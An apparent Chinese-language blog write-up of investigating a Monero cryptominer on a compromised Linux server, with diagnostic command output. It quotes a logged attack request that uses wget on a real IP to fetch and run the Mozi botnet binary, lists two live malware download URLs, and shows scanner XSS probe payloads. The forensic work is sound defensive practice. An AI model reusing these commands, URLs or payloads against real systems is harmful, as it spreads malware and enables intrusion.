

# Linux 挂马后排查过程

## 1. 概述

发现服务器特别卡，查看监听后发现 CPU、内存、负载都拉得特别高。




但是我们也没运行什么服务在上面，第一感觉是可能被挂马了，于是登上服务器开始排查。


## 2. 排查

首先当然是 top 命令查看一下

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ share]# top
top.original - 09:46:48 up 415 days, 18 min,  3 users,  load average: 11.92, 12.98, 15.58
Tasks: 141 total,   4 running, 135 sleeping,   0 stopped,   2 zombie
%Cpu(s):  4.3 us,  6.7 sy, 86.9 ni,  0.0 id,  0.0 wa,  0.0 hi,  2.1 si,  0.0 st
KiB Mem :  8008880 total,   308064 free,  6618376 used,  1082440 buff/cache
KiB Swap:        0 total,        0 free,        0 used.   912184 avail Mem 
  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                                                   20358 root      20   0  984792  69328   5764 S   6.7  0.9   2:14.79 dockerd                                                    5585 root      20   0  908428  21252   4952 S   5.3  0.3   0:00.16 zgrab                                                         3 root      20   0       0      0      0 S   0.3  0.0  29:20.69 ksoftirqd/0                     
 5597 root      20   0  160216   2268   1548 R   0.3  0.0   0:00.01 top.original  
```

奇怪了，没有占有CPU特别高的进程，但是整个系统CPU确实都使用完了（0.0 id）。

不过其中 调整过优先级的程序占用有86.9（ 86.9 ni）比较可疑。

换 pidstat 命令查看一下

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ share]# pidstat 1
Linux 3.10.0-957.21.3.el7.x86_64 (iZ2ze9ebgot9h2acvk4uabZ) 	05/19/2021 	_x86_64_	(4 CPU)

09:54:41 AM   UID       PID    %usr %system  %guest    %CPU   CPU  Command
09:54:42 AM     0      1773    2.94   12.75    0.00   15.69     2  masscan
09:54:42 AM     0      1775    1.96    0.98    0.00    2.94     2  zgrab
09:54:42 AM     0      2835    0.98   15.69    0.00   16.67     0  pnscan
09:54:42 AM     0      3879    0.00    0.98    0.00    0.98     2  pidstat
09:54:42 AM     0     20358    5.88    0.00    0.00    5.88     3  dockerd
09:54:42 AM     0     24564  100.00    6.86    0.00  100.00     0  [crypto]

```


果然 24564（[crypto]） 这个进程占用了大部分CPU，crypto 这个词基本可以确定就是在挖坑了。

然后查看一下启动文件在哪里。

```sh
lsof -p 24564
-bash: /usr/bin/lsof: Permission denied
```

woc，没有权限，咋回事呢。

查看了一下发送，好多用于排查的命令都被去掉了可执行权限。

> 这可操蛋了，只能手动把权限加上

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ bin]# chmod +x lsof 
chmod: changing permissions of ‘lsof’: Operation not permitted
```

woc，这是啥情况。

可能是文件正在被锁定,不允许操作或更改。

> chmod命令底层的实现是chattr命令,使用此命令后,可以使此文件被锁定,无法进行添加/删除/写入等操作,就算root用户也无法例外,熟悉chattr及lsattr命令即可解决此问题.

```SH
 $ lsattr /usr/sbin/lsof
 ----i--------e-- lsof
```

带有 i 状态 果然是被锁定了。

先手动解除锁定。

```sh
 $ chattr -i /usr/sbin/lsof
 $ chmod +x lsof 
```


这次应该可以了，查看启动文件

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ bin]# lsof -p 24564
COMMAND    PID USER   FD      TYPE             DEVICE SIZE/OFF      NODE NAME
[crypto] 24564 root  cwd       DIR              253,1   249856         2 /
[crypto] 24564 root  rtd       DIR              253,1   249856         2 /
[crypto] 24564 root  txt       REG              253,1  4563624    265449 /usr/share/[crypto]
[crypto] 24564 root  mem       REG              253,1   217032    133182 /var/db/nscd/hosts
[crypto] 24564 root  mem       REG              253,1  2156240    265441 /usr/lib64/libc-2.17.so
[crypto] 24564 root  mem       REG              253,1  1136944    277474 /usr/lib64/libm-2.17.so
[crypto] 24564 root  mem       REG              253,1    19248    277473 /usr/lib64/libdl-2.17.so
[crypto] 24564 root  mem       REG              253,1    43712    277480 /usr/lib64/librt-2.17.so
[crypto] 24564 root  mem       REG              253,1   142144    265468 /usr/lib64/libpthread-2.17.so
[crypto] 24564 root  mem       REG              253,1   163312    265151 /usr/lib64/ld-2.17.so
[crypto] 24564 root    0r      CHR                1,3      0t0      1028 /dev/null
[crypto] 24564 root    1u     unix 0xffff9ea21e271000      0t0 652861711 socket
[crypto] 24564 root    2u     unix 0xffff9ea21e271000      0t0 652861711 socket
[crypto] 24564 root    3r     FIFO                0,9      0t0 652862468 pipe
[crypto] 24564 root    4w     FIFO                0,9      0t0 652862468 pipe
[crypto] 24564 root    5u  a_inode               0,10        0      6379 [eventpoll]
[crypto] 24564 root    6r     FIFO                0,9      0t0 652862469 pipe
[crypto] 24564 root    7w     FIFO                0,9      0t0 652862469 pipe
[crypto] 24564 root    8u  a_inode               0,10        0      6379 [eventfd]
[crypto] 24564 root    9r      CHR                1,3      0t0      1028 /dev/null
[crypto] 24564 root   10w      REG              253,1   258930    265478 /usr/share/[crypto].log
[crypto] 24564 root   11u     unix 0xffff9ea20aa8ac00      0t0 652862471 socket
[crypto] 24564 root   12r  a_inode               0,10        0      6379 inotify
[crypto] 24564 root   13u     IPv4          907533966      0t0       TCP iZ2ze9ebgot9h2acvk4uabZ:37598->70.ip-139-99-102.eu:14444 (ESTABLISHED)

```

应该就是这个了

```sh
[crypto] 24564 root  txt       REG              253,1  4563624    265449 /usr/share/[crypto]
```


```sh
$ cd /usr/share/
$ ll
-rwxr-xr-x    1 mosquitto mosquitto 4563624 Jul 14  2020 [crypto]
-rw-r--r--    1 root      root       259250 May 19 10:06 [crypto].log
-rw-r--r--    1 mosquitto mosquitto    3868 May 18 15:49 [crypto].pid
-rwxr-xr-x    1 root      root          279 May 18 15:45 [crypto].sh
```


先看下 log 文件

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ share]# tail -n 10 \[crypto\].log 
[2021-05-19 10:05:07.442]  net      new job from xmr-asia1.nanopool.org:14444 diff 480045 algo rx/0 height 2363977
[2021-05-19 10:05:20.646]  miner    speed 10s/60s/15m 801.1 794.6 806.6 H/s max 898.6 H/s
[2021-05-19 10:06:08.703]  net      new job from xmr-asia1.nanopool.org:14444 diff 480045 algo rx/0 height 2363977
[2021-05-19 10:06:21.008]  miner    speed 10s/60s/15m 804.8 791.1 807.2 H/s max 898.6 H/s
[2021-05-19 10:06:27.930]  cpu      accepted (100/7) diff 480045 (409 ms)
[2021-05-19 10:07:07.797]  net      new job from xmr-asia1.nanopool.org:14444 diff 480045 algo rx/0 height 2363977
[2021-05-19 10:07:21.398]  miner    speed 10s/60s/15m 793.3 798.7 807.8 H/s max 898.6 H/s
[2021-05-19 10:07:35.627]  net      new job from xmr-asia1.nanopool.org:14444 diff 480045 algo rx/0 height 2363978
[2021-05-19 10:08:21.717]  miner    speed 10s/60s/15m 841.3 805.0 806.0 H/s max 898.6 H/s
[2021-05-19 10:08:36.058]  net      new job from xmr-asia1.nanopool.org:14444 diff 480045 algo rx/0 height 2363978

```

在看下这个 shell 脚本

```sh
[root@iZ2ze9ebgot9h2acvk4uabZ share]# cat \[crypto\].sh 
#!/bin/bash
if ! pidof [crypto] >/dev/null; then
  nice /usr/share/[crypto] $*
else
  echo "Monero miner is already running in the background. Refusing to run another one."
  echo "Run \"killall xmrig\" or \"sudo killall xmrig\" if you want to remove background miner first."
fi

```

果然是在挖坑，woc。


## 3. 如何被攻击的

由于运行的服务比较少，排查也比较简单，最终注意到了一个前端的日志文件`out.log`。

正常日志大概是这个样子的：

```log
 READY  Server listening on http://localhost:3000
 READY  Server listening on http://localhost:3000
 READY  Server listening on http://localhost:3000
 {
  statusCode: 404,
  msg: 404,
  message: '{\n  "statusCode": 404,\n  "msg": 404\n}'
}
```

但是其中有一段就比较可疑了：

```log
创建
$冬天"</title>1<ScRiPt>hZEn(9136)</ScRiPt>
创建
$冬天""onmouseover='hZEn(98532)'bad="
创建
$冬天""9LX2='hZEn([!+!])'gF7="
创建
$冬天"\u0022onmouseover='hZEn(96153)'bad=\u0022
创建
$冬天""onmouseover='hZEn(97134)'bad="
创建
$冬天""sTYLe='acu:Expre/**/SSion(hZEn(9330))'bad="
创建
$冬天"1<ScRiPt>hZEn(9354)</ScRiPt>
创建
$冬天"<WIZOGH>DQVRL[!+!]</WIZOGH>
创建
$冬天"<ScRiPt 
>hZEn(9570)</ScRiPt>
创建
$冬天"<ScRiPt/acu src=//xss.bxss.me/t/xss.js?9287></ScRiPt>
创建
$冬天"<iframe src='data:text/html;base64,PHNjcmlwdD5hbGVydCgnYWN1bmV0aXgteHNzLXRlc3QnKTwvc2NyaXB0Pgo=' invalid='9214'>
创建
$冬天"<body onload=hZEn(9976)>
创建
$冬天"
创建
$冬天"
创建
$冬天"" onerror=alert(9252)>
创建
$冬天"<ScRiPt >hZEn(9411)</sCripT>
创建
$冬天"&lt;ScRiPt&gt;hZEn(9079)&lt;/sCripT&gt;
创建
$冬天"<input autofocus onfocus=hZEn(9337)>
创建
$冬天"<a HrEF=http://xss.bxss.me></a>
创建
$冬天"<a HrEF=jaVaScRiPT:>
创建
$冬天"}body{acu:Expre/**/SSion(hZEn(9445))}
创建
$冬天"<% contenteditable onresize%3DhZEn(9649)>
创建
$冬天";qCg0C
1<ScRiPt>hZEn(9832)</ScRiPt>
创建
$冬天"<WLN7DP>EGQMD[!+!]</WLN7DP>
创建
$冬天"<ifRAme sRc=9716.com></IfRamE>
创建
$冬天"<Hu44hC x=9426>
创建
$冬天"1<ScRiPt>hZEn(9118)</ScRiPt>
创建
$冬天;"onmouseover='hZEn(90782)'bad="
创建
$冬天;"RfAn='hZEn([!+!])'Hfg="
创建
$冬天;\u0022onmouseover='hZEn(99513)'bad=\u0022
创建
$冬天;"onmouseover='hZEn(95684)'bad="
创建
$冬天;"sTYLe='acu:Expre/**/SSion(hZEn(9502))'bad="
创建
$冬天;;9290"();}]9418
创建
$冬天;;9929"();}]9955
```

看起来应该是一段脚本，说明很有可能就是通过这个 log 进行攻击了。

最终又发现了下面这段：

```sh
{
  statusCode: 404,
  path: '/shell?cd+/tmp;rm+-rf+*;wget+http://112.237.126.211:41220/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws',
  message: 'This page could not be found'
}
```

很明显是将某个程序直接下载到了服务器上。

> Mozi僵尸网络是于2019年底首次出现在针对路由器和DVR 的攻击场景上的一种P2P僵尸网络。主要攻击物联网（IoT）设备，包括网件、D-Link和华为等路由设备。它本质上是Mirai的变种，但也包含Gafgyt和IoT Reaper的部分代码，用于进行DDoS攻击、数据窃取、垃圾邮件发送以及恶意命令执行和传播。目前其规模已经迅速扩大，据统计目前已占到所有物联网（IoT）僵尸网络流量的90％ 。

最后还去下载了另外一下 `cronb.sh` 脚本文件。

具体下载链接如下，有兴趣的可以分析一下：

```sh
http://199.19.226.117/b2f628/cronb.sh
http://112.237.126.211:41220/Mozi.a
```


后续的话前端同学打印日志进行了处理，同时也加强了服务器安全管理。


## 4. 小结

* 1）利用 top、pidstat 找到对应进程 pid
* 2）利用 lsof -p $PID 找到对应启动命令、文件
* 3）chattr、lsattr、chmod 文件权限调整
* 4）加强安全管理，避免系统漏洞。

Mozi 相关分析可以查看[（Mozi）僵尸网络分析报告](https://paper.seebug.org/1347/#1)，已经有专业团队进行分析了。

## 5. 相关阅读

[（Mozi）僵尸网络分析报告](https://paper.seebug.org/1347/#1)

[恶意软件Mozi进入loT1](https://blog.lumen.com/new-mozi-malware-family-quietly-amasses-iot-bots/)

[恶意软件Mozi进入loT2](https://securityintelligence.com/posts/botnet-attack-mozi-mozied-into-town/)